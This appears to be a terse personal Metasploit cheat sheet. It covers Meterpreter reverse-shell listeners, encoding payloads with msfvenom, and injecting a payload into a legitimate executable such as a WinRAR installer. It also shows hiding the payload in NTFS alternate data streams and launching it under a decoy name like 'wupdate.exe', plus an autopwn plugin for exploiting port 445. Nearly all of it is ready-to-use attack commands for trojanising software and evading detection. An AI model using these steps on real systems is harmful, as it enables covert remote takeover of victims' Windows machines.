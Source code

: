 ```shell
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <my-ip>
set LPORT 1234
run
```
> After deliver payload

***payload encoding***
```shell
msfvenom --list encoders
```
> show the list of encoding

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my-ip> LPORT=1234 -e x86/shikata_ga_nai -f exe > payload.exe
```
> add `-i 10` before -e mean that we encode the payload 10 time mean 10 iteration

***inject payload in executable file***
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my-ip> LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe -x <path of file that you want to inject>.exe > payload.exe
```
> best if winRar `https://www.win-rar.com/predownload.html?&L=0&Version=32bit` to inject the payload in this

#### hide payload in window
```shell
cd Desktop
notepad test.txt:secret.txt
```
> in window cmd

```shell
cd Temp
type payload.exe > windowing.txt:winpeas.exe
start windowing.txt:winpeas.exe
```
> for payload hide. if we hide this in some file it show storage 0

```shell
mklink wupdate.exe C:\Temp\windowing.txt:winpeas.exe
wupdate
```
> if it not start direct then we this to create symbolic link and then start

#### Setup of autopwn
```shell
cd Downloads
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
sudo mv db_autopwn.rb /usr/sharemetasploit-framework/plugin/
<on kali in msfconsole>
load db_autopwn
db_autopwn -p -t -PI 445
```
> it give us all the exploit of that specific port
